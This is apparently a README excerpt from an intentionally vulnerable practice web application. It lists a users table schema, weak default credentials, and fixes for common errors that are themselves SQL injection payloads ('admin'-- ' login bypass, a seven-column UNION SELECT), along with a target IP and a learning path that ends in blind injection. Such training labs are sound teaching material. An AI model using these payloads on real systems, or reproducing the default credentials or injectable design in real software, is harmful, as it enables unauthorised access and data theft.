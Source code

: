 ## 📊 Database Schema

### Users Table (7 columns)
```
id | username | password | email | role | created_at | updated_at
```

### Default Credentials
```
admin:admin123 (role: admin)
john.doe:password123 (role: user)
jane.smith:qwerty (role: user)
bob.wilson:123456 (role: user)
alice.brown:welcome (role: user)
```

---

## ⚠️ Common Errors & Fixes

### Error: "different number of columns"
**Fix:** The users table has 7 columns. Use:
```bash
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL
```

### Error: "syntax error near '--'"
**Fix:** Add a space after `--`:
```bash
"username":"admin'-- "  # Note the space!
```

### Error: "Cannot POST /wcorp/api/search"
**Fix:** Remove `/wcorp` from API path:
```bash
# ❌ Wrong: http://174.138.71.77/wcorp/api/search
# ✅ Correct: http://174.138.71.77/api/search
```

---

## 🎓 Learning Path

1. **Start Here:** Authentication bypass with `admin'-- `
2. **Next:** Extract all users with UNION SELECT
3. **Then:** Discover other tables
4. **Advanced:** Extract sensitive_data table
5. **Expert:** Blind SQL injection techniques

---
